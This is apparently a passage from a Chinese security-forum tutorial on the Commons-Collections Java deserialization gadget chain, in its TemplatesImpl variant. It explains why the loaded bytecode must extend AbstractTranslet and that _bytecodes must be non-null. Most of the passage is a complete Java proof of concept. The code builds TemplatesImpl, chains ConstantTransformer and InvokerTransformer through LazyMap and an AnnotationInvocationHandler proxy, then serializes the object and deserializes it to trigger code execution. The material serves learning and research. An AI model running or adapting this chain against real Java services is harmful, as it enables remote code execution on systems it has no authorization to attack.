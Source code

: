 ‍

这里有个要注意的点

- 455行会去进行强制类型转换为`AbstractTranslet`​类，那我们是不是要传该类进来呢？

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-407f23d1d80bbdb83870e675c1b0d703b734aca4.png)​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-41a04f5c056f171d51d97a1dafc850b61aa1cf9b.png)​

在这个地方他会去判断这个父类是否为 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`​

所以加载的字节码文件要是集成了`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`​这个的类

- 这里`_bytecodes`​ 不能为空

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bacac49afcf2cb9cac265816a3b922ae6bb81f5f.png)​

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4d0eaa78735da74f3843a4fff291d185a7cc3428.png)​

‍

那么后半段执行代码的点就可以修改了，其实跟CC1基本都不变，只是修改了一下执行代码的形式，

```java

        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field _tfField = tc.getDeclaredField("_tfactory");
        _tfField.setAccessible(true);
        _tfField.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)};

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);

        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = cls.newInstance(Override.class,maproxy);

        serialize(o);
        unserialize("ser.bin");
```
